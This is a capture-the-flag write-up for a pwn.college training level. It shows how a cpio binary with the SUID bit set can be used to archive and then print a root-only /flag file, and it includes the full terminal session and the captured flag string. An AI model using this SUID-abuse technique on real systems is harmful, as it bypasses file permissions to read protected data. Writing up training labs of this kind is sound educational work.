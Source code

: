 `cpio` ah! a headache. man I tried it to solve for almost one day. This I think is one of the `not so easy` challenge in the `program-misuse` module. At last, I solved it. Many ideas to solve it was found in the `pwn.college` discord server. You can search there `cpio` and can check many insightful chat about this problem.
Thanks to those who wrote them.

Now the writeup.

`yes because when you put /flag in. <>, it tries to read flag which is not allowed`

```bash
hacker@program-misuse-level-22:~$ cd /
hacker@program-misuse-level-22:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-22:/$ cd challenge/
hacker@program-misuse-level-22:/challenge$ ls
babysuid_level22
hacker@program-misuse-level-22:/challenge$ ./babysuid_level22 
Welcome to ./babysuid_level22!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/cpio.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level22) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cpio!
hacker@program-misuse-level-22:/challenge$ cd /
hacker@program-misuse-level-22:/$ cpio -ov < flag > flag.cpio
bash: flag: Permission denied
hacker@program-misuse-level-22:/$ cpio -ov < /flag > flag.cpio
bash: /flag: Permission denied
hacker@program-misuse-level-22:/$ find flag | cpio -ov > flag.cpio
bash: flag.cpio: Permission denied
hacker@program-misuse-level-22:/$ find flag | cpio -ov > /tmp/flag.cpio
flag
1 block
hacker@program-misuse-level-22:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-22:/$ cd /tmp/
hacker@program-misuse-level-22:/tmp$ ls
flag.cpio  hsperfdata_root  ssh-3exY2OlE3u9r  vscode-ipc-10657d9b-ae27-4fd7-913b-c1089b3e2a93.sock  vscode-ipc-99e00527-9f73-4902-bead-58cc2dae025d.sock
hacker@program-misuse-level-22:/tmp$ cpio -iv flag.cpio 
^C
hacker@program-misuse-level-22:/tmp$ cpio -iv --to-stdout flag.cpio 
^C
hacker@program-misuse-level-22:/tmp$ cpio --to-stdout flag.cpio 
cpio: You must specify one of -oipt options.
Try 'cpio --help' or 'cpio --usage' for more information.
hacker@program-misuse-level-22:/tmp$ cpio -i --to-stdout < flag.cpio 
pwn.college{sp1LT24UoH2edTSmdPEx_w6WtCV.0FN2EDL0AjNzQzW}
1 block
```


Here you can see, when we run `cpio -ov < flag > flag.cpio` , it tries to read the `flag` file. But it has no read permission to user. So,

```bash
hacker@program-misuse-level-22:/$ cpio -ov < flag > flag.cpio
bash: flag: Permission denied
```

this shows in the terminal.

If you read the `man` page of `cpio`, you will see

`When creating an archive, cpio takes the list of files to be processed from the standard input, and then sends the archive to the standard output. Usually find or ls is used to provide this list to the standard input.`

So I ran

`hacker@program-misuse-level-22:/$ find flag | cpio -ov > flag.cpio`

`-o` is for creating the archive.
`-v` verbosely list the files processed

But this time it shows, `bash: flag.cpio: Permission denied` , it means that you can't create any file in the root directory. So there are generally two places you can use to store the archive file.

1. `/home/hacker: home directory.`
2. `/tmp: temp directory`

here we use the `/tmp` directory.

```bash
hacker@program-misuse-level-22:/$ find flag | cpio -ov > /tmp/flag.cpio
flag
1 block
```

> [!Meaning of -v: verbosely]
> `when something is done verbosely, it is done in a detailed and comprehensive manner. Here when you can see the output "flag" and then "1 block". If you don't write -v it will just print the "1 block"`

This successfully archives the `flag` file.

Now we have to extract the `flag.cpio` and prints it content.

If you read the `man` page again, you will see to extract we have to use `-i` and to print the contents
`--to-stdout` which says `Extract files to standard output`

After trying some combination of the commands, I found the correct one.

```bash
hacker@program-misuse-level-22:/tmp$ cpio -i --to-stdout < flag.cpio 
pwn.college{sp1LT24UoH2edTSmdPEx_w6WtCV.0FN2EDL0AjNzQzW}
1 block
```

**And BANG! you found the FLAG!**
